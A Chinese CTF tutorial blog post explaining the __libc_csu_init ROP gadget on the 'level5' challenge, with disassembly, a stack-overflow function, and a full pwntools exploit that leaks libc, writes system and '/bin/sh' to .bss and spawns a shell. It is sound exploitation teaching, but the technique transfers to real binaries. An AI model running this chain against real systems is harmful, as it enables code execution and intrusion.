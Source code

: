 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      PWN通用gadget学习 		 # 标题 
subtitle:   __libc_csu_init               # 副标题
date:       2018-07-30 				# 时间
author:     Mr.R 					# 作者
# header-img: img/post-bg-2015.jpg 	# 这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								# 标签
    - CTF
---
```


# PWN,__libc_csu_init通用gadget学习
>例题下载:[蒸米level5](/files/pwn/level5.zip)

__libc_csu_init函数是在libc初始化的时候用到的函数,所以在使用libc的文件中都会出现他  
  
在做64位的pwn题目的时候,函数的传参都是需要用到寄存器的  
>从第⼀一个到第六个依次保存在rdi，rsi，rdx，rcx，r8，r9。从第7个参数开始，接下来的所有参数都将通过栈传递  

但是我们在rop的时候不一定可以控制全部的寄存器,可能会导致参数无法完全传递,这时候就可以利用__libc_csu_init来进行调用函数

首先来看函数的汇编  
```
.text:00000000004005A0 ; void _libc_csu_init(void)
.text:00000000004005A0                 public __libc_csu_init
.text:00000000004005A0 __libc_csu_init proc near               ; DATA XREF: _start+16↑o
.text:00000000004005A0
.text:00000000004005A0 var_30          = qword ptr -30h
.text:00000000004005A0 var_28          = qword ptr -28h
.text:00000000004005A0 var_20          = qword ptr -20h
.text:00000000004005A0 var_18          = qword ptr -18h
.text:00000000004005A0 var_10          = qword ptr -10h
.text:00000000004005A0 var_8           = qword ptr -8
.text:00000000004005A0
.text:00000000004005A0 ; __unwind {
.text:00000000004005A0                 mov     [rsp+var_28], rbp
.text:00000000004005A5                 mov     [rsp+var_20], r12
.text:00000000004005AA                 lea     rbp, cs:600E24h
.text:00000000004005B1                 lea     r12, cs:600E24h
.text:00000000004005B8                 mov     [rsp+var_18], r13
.text:00000000004005BD                 mov     [rsp+var_10], r14
.text:00000000004005C2                 mov     [rsp+var_8], r15
.text:00000000004005C7                 mov     [rsp+var_30], rbx
.text:00000000004005CC                 sub     rsp, 38h
.text:00000000004005D0                 sub     rbp, r12
.text:00000000004005D3                 mov     r13d, edi
.text:00000000004005D6                 mov     r14, rsi
.text:00000000004005D9                 sar     rbp, 3
.text:00000000004005DD                 mov     r15, rdx
.text:00000000004005E0                 call    _init_proc
.text:00000000004005E5                 test    rbp, rbp
.text:00000000004005E8                 jz      short loc_400606
.text:00000000004005EA                 xor     ebx, ebx
.text:00000000004005EC                 nop     dword ptr [rax+00h]
.text:00000000004005F0
.text:00000000004005F0 loc_4005F0:                             ; CODE XREF: __libc_csu_init+64↓j
.text:00000000004005F0                 mov     rdx, r15
.text:00000000004005F3                 mov     rsi, r14
.text:00000000004005F6                 mov     edi, r13d
.text:00000000004005F9                 call    qword ptr [r12+rbx*8]
.text:00000000004005FD                 add     rbx, 1
.text:0000000000400601                 cmp     rbx, rbp
.text:0000000000400604                 jnz     short loc_4005F0
.text:0000000000400606
.text:0000000000400606 loc_400606:                             ; CODE XREF: __libc_csu_init+48↑j
.text:0000000000400606                 mov     rbx, [rsp+38h+var_30]
.text:000000000040060B                 mov     rbp, [rsp+38h+var_28]
.text:0000000000400610                 mov     r12, [rsp+38h+var_20]
.text:0000000000400615                 mov     r13, [rsp+38h+var_18]
.text:000000000040061A                 mov     r14, [rsp+38h+var_10]
.text:000000000040061F                 mov     r15, [rsp+38h+var_8]
.text:0000000000400624                 add     rsp, 38h
.text:0000000000400628                 retn
.text:0000000000400628 ; } // starts at 4005A0
.text:0000000000400628 __libc_csu_init endp
```
需要注意的是 每个不同版本的 汇编可能都不同

下面来看分析  
显然在0x0400606之后我们可以控制rbx,rbp,r12,r13,r14,r15  
在0x04005F0中
```
r15 --> rdi  
r14 --> rsi
r13 --> edi
```
这里要注意的是 虽然只能够控制rdi的低32位,但实际上rdi的高32位也是0(可以自行调试)
在这里我们就可以控制rdi,rsi,rdi。并且可以调用r12所指的函数(要注意调用时要使用got地址)  

```
.text:00000000004005FD                 add     rbx, 1
.text:0000000000400601                 cmp     rbx, rbp
.text:0000000000400604                 jnz     short loc_4005F0
```
这一处我们只需要使rbx + 1 = rbp就可以了  
我们就使用最简单的rbx = 0,rbp = 1  
  
溢出函数:
```c
ssize_t vulnerable_function()
{
  char buf; // [rsp+0h] [rbp-80h]

  return read(0, &buf, 0x200uLL);
}
```

payload编写:  
1. 确定padding:0x88  
2. 编写csu利用函数


```python
def csu(rbx,rbp,r12,r13,r14,r15):
    payload = padding + p64(csu_end)
    payload += p64(0)   #覆盖rsp->rsp+8
    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(csu_start)
    payload += 'A'*(7*8)
    payload += p64(main)
    s.sendline(payload)
```

这里需要注意 我们在覆盖完ret后,要先写入8字节将rsp覆盖到rsp+8。在控制完rbx,rbp等以后跳转到上方调用函数。在调用完之后,我们仍然需要覆盖ret,所以要往stack上继续覆盖8*8*7字节(6个寄存器+1个垃圾字节),因为要多次利用,所以要将ret覆盖为main

3. 利用write,leak出偏移地址
```python
write_got = elf.got['write']
csu(0,1,write_got,1,write_got,8)
s.recvline()
write_real = u64(s.recvline()[0:8])
libc = LibcSearcher("write",write_real)
offset = write_real - libc.dump("write")
```

4. 将system地址与/bin/sh写入bss  
   因为我们没有system_got的地址,所以我们需要首先把system_symbols写入bss,然后再通过csu调用bss来执行
```python
read_got = elf.got['read']
bss = 0x601038
csu(0,1,read_got,0,bss,16)
system = libc.dump("system") + offset
sleep(1)
s.send(p64(system))
s.send("/bin/sh\x00")
```
这里记得手动延时一下,不然可能会出现程序还没read,我们数据就已经发上去的情况

5. 调用system,GetShell
```python
csu(0,1,bss,bss+8,0,0)
s.interactive()
```

完整code:
```python
#-*-coding=utf-8-*-

from pwn import *
from LibcSearcher import LibcSearcher
from time import sleep

s = process("./level5")
elf = ELF("./level5")
padding = 'A'*0x88
csu_end = 0x0400606
csu_start = 0x04005F0
main = 0x0400564

def csu(rbx,rbp,r12,r13,r14,r15):
    payload = padding + p64(csu_end)
    payload += p64(0)   #覆盖rsp->rsp+8
    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(csu_start)
    payload += '\x00'*(7*8)
    payload += p64(main)
    s.sendline(payload)

write_got = elf.got['write']
csu(0,1,write_got,1,write_got,8)
s.recvline()
write_real = u64(s.recvline()[0:8])
libc = LibcSearcher("write",write_real)
offset = write_real - libc.dump("write")

read_got = elf.got['read']
bss = 0x601038
system_addr = libc.dump("system") + offset
csu(0,1,read_got,0,bss,16)
sleep(1)
s.send(p64(system_addr))
s.send("/bin/sh\0")
print "send success"
csu(0,1,bss,bss+8,0,0)
s.interactive()
```


